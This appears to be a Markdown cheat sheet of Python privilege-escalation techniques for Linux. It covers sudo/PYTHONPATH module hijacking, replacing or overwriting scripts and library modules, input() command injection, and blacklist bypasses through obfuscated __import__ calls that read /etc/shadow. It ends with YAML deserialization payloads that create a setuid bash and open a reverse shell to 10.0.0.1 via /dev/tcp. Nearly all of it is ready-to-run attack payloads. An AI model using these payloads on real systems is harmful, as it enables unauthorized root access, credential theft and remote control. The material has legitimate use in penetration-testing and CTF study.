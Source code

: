 # Python Privilege Escalation

### There are multiple ways to escalate with python

## EXAMPLES:

# MODULE HIJACKING

#### 1) 

    SETENV: NOPASSWD /usr/bin/python /home/whatever/script.py

#### 2) Check if you can overwrite an already existing module in python, or simply create the missing import module that the script asks

#### E.g.: ImportError: No module named pwned

#### 3) Create the malicious binary in any directory we have write access to (/tmp directory as usual)

#### 4) The payload can be 

    import os; os.system('/bin/bash') 
    
#### or a python reverse shell.

#### 5) 

    chmod +x pwned.py

#### 6) 

    sudo PYTHONPATH=/tmp/ /usr/bin/python /home/whatever/script.py

#### 7) Enjoy root!

# SUDO PRIVILEGE ESCALATION

#### 1) 

    NOPASSWD: /usr/bin/python /home/USER/script.py

#### 2) If the python script is under the current user's home directory, we can remove the script and create the new one with the same name.

#### 

    rm -rf /home/USER/script.py

#### 

    touch /home/USER/script.py

#### 3) Insert payload 

    import os;os.system('/bin/bash')

#### 4) GGEZ

# MODULE OVERRIDING 

#### If the Python script contains a module that can be modified by current user, we can inject arbitrary code into the module.

#### 1) First, check what modules the Python script uses.

#### 2) 

    find / -name "random.py" 2>/dev/null

#### 3) 

    ls -la /usr/lib/python3.6/random.py

#### 4) If we have write permissions on the file, we can inject our own malicious code for privesc 

    import os; os.system('/bin/bash')

#### 5) Execute for root shell ;)

# OS COMMANDS IN INPUT()

#### 1) If the python executable asks for input, you can try to enter OS commands like:

#### 2) Input: 

    __import__('os').system('id')

# BLACKLISTED PYTHON MODULES

### Examples: 

#### eval, exec, import, open, os, read, system, write

#### Bypass techniques: String obfuscation

#### Payload: 

    print(globals())
    print(getattr(getattr(globals()['__builtins__'], '__im'+'port__')('o'+'s'), 'sys'+'tem')('cat /etc/shadow'))
    __builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('cat /etc/shadow')

#### Bypass techniques: Input

#### If the "eval" or "exec" modules are accepted, we can input arbitrary code.

#### eval(input()) or exec(input())
 
    print(open("/etc/passwd", "r").read())

# PYTHON YAML PRIVILEGE ESCALATION

### Python yaml package is vulnerable to execute arbitrary commands

#### 1) 

    import yaml; filename = "example.yml"; yaml.load()

#### 2) Payload: 

    import yaml

    from yaml import Loader, UnsafeLoader

    data = b'!!python/object/new:os.system ["cp `which bash` /tmp/bash;chown root /tmp/bash;chmod u+sx /tmp/bash"]'

    yaml.load(data)

    yaml.load(data, Loader=Loader)

    yaml.load(data, Loader=UnsafeLoader)

    yaml.load_all(data)

    yaml.load_all(data, Loader=Loader)

    yaml.load_all(data, Loader=UnsafeLoader)

    yaml.unsafe_load(data)

#### 3) 

    /tmp/bash -p

### Base64 Encoding RCE

#### 1) 

    yaml.load(b64decode(b"ISFweXRa...YXNoIl0="))

### Reverse Shell

#### 1) start listener: 

    nc -lvnp 1234

#### 2) Execute python script that contains YAML code as root:

    import yaml

    yaml.load('!!python/object/new:os.system ['bash -c "bash -i >& /dev/tcp/10.0.0.1/1234 0>&1"'])

